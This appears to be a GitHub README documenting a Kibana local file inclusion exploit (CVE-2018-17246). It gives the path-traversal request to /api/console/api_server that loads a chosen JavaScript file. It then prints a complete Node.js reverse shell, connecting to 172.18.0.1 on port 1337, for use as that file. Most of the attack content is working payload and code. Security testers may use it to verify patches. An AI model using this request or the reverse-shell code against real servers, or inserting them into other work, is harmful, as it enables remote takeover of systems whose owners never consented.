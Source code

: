 # CVE-2018-17246 - Kibana LFI < 6.4.3 & 5.6.13

A Local File Inclusion on Kibana found by [CyberArk Labs](https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/), the LFI can be use to execute a reverse shell on the Kibana server with the following payload:
```
/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../path/to/shell.js
```
As you already guessed, this attack need to be paired with an unrestricted file upload or any other vulnerability that allows you to write a file on the server.

> There is no input validation so we can change the name of the JavaScript file to anything we want. In this case, with the path traversal technique, we can choose any file on the Kibana server.
> One thing to be aware of, however, is node's [module caching](https://nodejs.org/api/modules.html#modules_caching) feature. Essentially, since the LFI works by sending unsanitized user input to node's `require` function, the included module (the attacker's payload) will be cached _by filename_. This means that you cannot send the same payload to, e.g., recover a reverse shell.

![lfi](https://user-images.githubusercontent.com/5891788/54027009-3ddd5900-41a0-11e9-9f17-52b9fc0087bd.png)

**Vulnerability details**: https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/

**Security Advisory**: https://www.elastic.co/blog/kibana-local-file-inclusion-flaw-cve-2018-17246

---

* kibana version 6.0.0 from docker (without any ElasticSearch linked the PoC is  working)
* shell.js from https://github.com/appsecco/vulnerable-apps/tree/master/node-reverse-shell

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1337, "172.18.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

